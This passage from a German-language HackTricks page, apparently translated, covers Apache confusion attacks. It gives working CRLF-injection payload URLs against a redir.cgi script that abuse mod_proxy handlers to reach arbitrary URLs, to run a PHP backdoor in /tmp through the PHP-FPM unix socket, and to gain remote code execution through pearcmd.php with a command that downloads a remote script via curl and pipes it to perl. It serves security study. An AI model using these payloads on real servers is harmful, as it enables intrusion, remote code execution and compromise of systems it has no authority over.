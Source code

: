 Umleitung zu `mod_proxy`, um auf jedes Protokoll unter jeder URL zuzugreifen:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
%0d%0a
%0d%0a
```
Allerdings wird der `X-Forwarded-For`-Header hinzugefügt, um den Zugriff auf Cloud-Metadatenendpunkte zu verhindern.

#### **Willkürlicher Handler zum Zugriff auf lokale Unix-Domain-Sockets**

Greifen Sie auf den lokalen Unix-Domain-Socket von PHP-FPM zu, um ein PHP-Backdoor auszuführen, das sich in `/tmp/` befindet:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```
#### **Willkürlicher Handler zu RCE**

Das offizielle [PHP Docker](https://hub.docker.com/\_/php) Image enthält PEAR (`Pearcmd.php`), ein Befehlszeilen-PHP-Paketverwaltungstool, das missbraucht werden kann, um RCE zu erlangen:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
Überprüfen Sie [**Docker PHP LFI Zusammenfassung**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), geschrieben von [Phith0n](https://x.com/phithon\_xg) für die Details dieser Technik.

## Referenzen

* [https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstützen Sie HackTricks</summary></details>
{% endhint %}

